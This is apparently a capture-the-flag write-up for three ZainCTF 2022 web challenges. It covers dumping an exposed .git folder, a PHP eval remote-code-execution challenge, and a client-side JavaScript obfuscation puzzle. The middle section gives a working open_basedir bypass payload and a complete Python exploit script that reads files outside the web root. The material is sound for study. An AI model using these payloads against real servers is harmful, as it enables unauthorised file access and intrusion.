 # ZainCTF 2022 - Web 
## 1- Sonic go Brr 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://instance-web.cybertalentslabs.com/index.php
- points: 50
</br>

So the website disclosed a .git folder , with this [tool](https://github.com/arthaud/git-dumper) i got the backend files , in the source code i found that the check was if the secret (bas64 string) is equal to the value of parameter Q , and that needs to go fast enough to be submitted 
</br>

i wrote this code then 
```python
import requests
import base64 as bs
import urllib.parse as url

def get() : 
    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
    }

    response = requests.get('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, verify=False)
    return  response.cookies["PHPSESSID"], response.cookies["secret"]

def post(session , secret) : 
    cookies = {
        'PHPSESSID': session,
        'secret': secret,
    }

    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '12',
    }

    data  ="Q=" + bs.b64decode(url.unquote(secret)).decode('utf-8')
    

    response = requests.post('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
if __name__ == "__main__" : 
    sess , cookie = get()
    post(sess  ,cookie)
```

## 2- blobber 

#### about : 
- Type: Web 
- Level: meduim 
- Website: http://52.59.229.252:1234/index.php
- points: 100

the website shows the source code : 

```php
<html>
<!--
<img src="uploads/bg.png"/>
-->
<?php

if (!isset($_GET['e']))
{
highlight_file(__FILE__);
}

eval(stripslashes($_GET['e']));

if (isset($_GET['file'])){
 $dir= new DirectoryIterator($_GET['file']);
 foreach ($dir as $found) echo filemtime($found)." ";
 exit;

}

?>
</html>
```

now easy eval , easy rce right , nope let's try the payload 
```php
ini_set('display_errors', 1);
chdir('../');
```

it gives : 

> <b>Warning</b>:  chdir(): open_basedir restriction in effect. File(../) is not within the allowed path(s): (/var/www/html) in <b>/var/www/html/index.php(12) : eval()'d code(3) : eval()'d code</b> on line <b>3</b><br />

now thats a lockdown , ok it says something base_dir prevents us from getting the parent files , i tried many thing , but if we look in disabled_functions we wil find that we can't upload nor execute system commands , pretty bad.

disabled functions : 
>system, pcntl_signal_dispatch,  posix_uname,  chgrp,  posix_setsid, pcntl_wifcontinued, readlink, proc_open, pcntl_exec, pcntl_wstopsig, imap_open, tempnam, passthru,  chown, pcntl_wifexited, show_source,  popen, pcntl_async_signals, exec, posix_mkfifo, pcntl_wexitstatus, touch,  posix_mkfifo, copy, pcntl_sigprocmask, file, pcntl_sigwaitinfo, fopen, pcntl_wifsignaled, define_syslog_variables, tmpfile, pcntl_exec, pcntl_waitpid, imagecolormatch, popen,  pg_lo_import, readfile, ftp_ssl_connect,  dbmopen, apache_setenv, link, pcntl_fork, pcntl_signal, parse_ini_file,  proc_terminate, curl_multi_exec, pcntl_setpriority, rename, file_put_contents, pcntl_getpriority, pcntl_signal_get_handler, curl_exec, pcntl_strerror,  proc_close,  proc_nice, pcntl_sigtimedwait,  posix_getpwuid, pcntl_get_last_error,  symlink,  pclose,  dbase_open,  posix_kill, pcntl_alarm, ftp_connect,  chmod, shell_exec, pcntl_wait,  posix_setpgid, pcntl_wtermsig, pcntl_wifstopped

i searched and found this [github](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/README.md) repo , it was pretty handy , i tried and it worked : 

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}\n";
}
```
> anaconda-post.log
> bin
> boot
> dev
> etc
> home
> lib
> lib64
> media
> mnt
> opt
> proc
> root
> run
> sbin
> srv
> sys
> t0t4lly_n0t_th3_r3al_fl4gG
> tmp
> usr
> var

we know it's in the t0t4lly_n0t_th3_r3al_fl4gG , we ned to get the file content : 

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
```

and we got the flag : **flag{n1c3_w0rk_ch41n1ng_wrappers_w1th_b4s3d1r}**

for the complete exploit : 

```python
import requests
import base64 as bs
#t0t4lly_n0t_th3_r3al_fl4gG

headers = {
    'Host': '52.59.229.252:1234',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
    'Content-Length':'0',
    'Cache-Control': 'max-age=0',
    'X-Forwarded-For': '127.0.0.1',
}
code = """
ini_set('display_errors', 1);
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""

command  = f"""
$code = base64_decode("{(bs.b64encode(code.encode("utf-8"))).decode("utf-8")}");
eval($code);
"""
params = (
    ('e', command),
)

response = requests.get('http://52.59.229.252:1234/index.php', headers=headers, params=params, verify=False)
print(response.text)
```


## 2- Obfjustu 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://52.59.254.46:1245/
- points: 50


when we first open the website , It has a graphical CLI, we can see the available commads using /help

<center><img src="../images/Obfjustu.png"></img></center>

in the source code , i found the javascript responsible for the fonctions , an obfuscated part was revealuing itself : 

```js 
var _cs = ["\x6a\x53", "\x31\x30\x6e", "\x66\x75", "\x5f\x77", "\x30\x6d\x33", "\x43\x6c\x69", "\x48\x5f\x73", "\x7b\x30\x62", "\x61\x67", "\x33", "\x66\x6c", "\x31\x74", "\x65\x6e\x74", "\x73\x63", "\x77\x45\x4c", "\x4c\x63", "\x30\x6d", "\x61\x74", "\x7d", "\x67\x74\x68", "\x67\x74", "\x63\x61\x6c", "\x6c\x6f", "\x68", "\x6c\x65\x6e", "\x6d\x70", "\x65", "\x61\x72", '\x67\x65\x6f', "\x65\x43\x6f"];
var _xxg0 = _cs[10] + _cs[8] + _cs[7] + _cs[2] + _cs[13] + _cs[17] + _cs[1] + _cs[3] + _cs[11] + _cs[6] + _cs[4] + _cs[0] + _cs[18];

function _xxf0(_xxp1, _xxp0) {
    if (_xxp1[_cs[24] + _cs[19]] !== _xxp0[_cs[24] + _cs[20] + _cs[23]]) {
        return false;
    }
    return _xxp1[_cs[22] + _cs[21] + _cs[29] + _cs[25] + _cs[27] + _cs[26]](_xxp0) === 0;
}
if (_xxf0(_xxg0, word[2])) {
    log(_cs[5] + _cs[12], _cs[14] + _cs[15] + _cs[16] + _cs[9]);
}
```

put it in the console (we are not analyzinf before getting the general idea) and we got the flag  :) : 

<center><img src="../images/flag_obfjustu.png"></img></center>
